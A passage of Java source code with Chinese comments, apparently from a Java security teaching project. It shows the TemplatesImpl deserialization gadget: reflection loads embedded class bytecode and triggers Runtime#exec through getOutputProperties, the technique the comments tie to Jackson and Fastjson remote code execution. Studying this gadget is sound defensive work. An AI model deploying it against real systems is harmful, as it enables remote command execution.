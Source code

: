 ```java
			20, 0, 40, 0, 24, 0, 48, 0, 27, 0, 51, 0, 25, 0, 52, 0, 26, 0, 56, 0, 28, 0, 20, 0, 0, 0, 24, 0, 4, -1,
			0, 28, 0, 3, 7, 0, 21, 7, 0, 22, 7, 0, 22, 0, 0, 11, 74, 7, 0, 23, 4, 0, 1, 0, 24, 0, 25, 0, 2, 0, 18, 0,
			0, 0, 25, 0, 0, 0, 3, 0, 0, 0, 1, -79, 0, 0, 0, 1, 0, 19, 0, 0, 0, 6, 0, 1, 0, 0, 0, 33, 0, 26, 0, 0, 0,
			4, 0, 1, 0, 27, 0, 1, 0, 24, 0, 28, 0, 2, 0, 18, 0, 0, 0, 25, 0, 0, 0, 4, 0, 0, 0, 1, -79, 0, 0, 0, 1,
			0, 19, 0, 0, 0, 6, 0, 1, 0, 0, 0, 38, 0, 26, 0, 0, 0, 4, 0, 1, 0, 27, 0, 1, 0, 29, 0, 0, 0, 2, 0, 30
	};

	/**
	 * 使用反射修改TemplatesImpl类的成员变量方式触发命令执行，Jackson和Fastjson采用这种方式触发RCE
	 *
	 * @throws Exception 调用异常
	 */
	public static void invokeField() throws Exception {
		TemplatesImpl template      = new TemplatesImpl();
		Class<?>      templateClass = template.getClass();

		// 获取需要修改的成员变量
		Field byteCodesField        = templateClass.getDeclaredField("_bytecodes");
		Field nameField             = templateClass.getDeclaredField("_name");
		Field tFactoryField         = templateClass.getDeclaredField("_tfactory");
		Field outputPropertiesField = templateClass.getDeclaredField("_outputProperties");

		// 修改成员属性访问权限
		byteCodesField.setAccessible(true);
		nameField.setAccessible(true);
		tFactoryField.setAccessible(true);
		outputPropertiesField.setAccessible(true);

		// 设置类字节码
		byteCodesField.set(template, new byte[][]{CLASS_BYTES});

		// 设置名称
		nameField.set(template, "");

		// 设置TransformerFactoryImpl实例
		tFactoryField.set(template, new TransformerFactoryImpl());

		// 设置Properties配置
		outputPropertiesField.set(template, new Properties());

		// 触发defineClass调用链：
		//   getOutputProperties->newTransformer->getTransletInstance->defineTransletClasses->defineClass
		// 触发命令执行调用链：
		//   getOutputProperties->newTransformer->getTransletInstance->new TestAbstractTranslet->Runtime#exec
		template.getOutputProperties();
	}

	/**
	 * 使用反射调用TemplatesImpl类的私有构造方法方式触发命令执行
	 *
	 * @throws Exception 调用异常
	 */
	public static void invokeConstructor() throws Exception {
		// 获取TemplatesImpl构造方法
		Constructor<TemplatesImpl> constructor = TemplatesImpl.class.getDeclaredConstructor(
```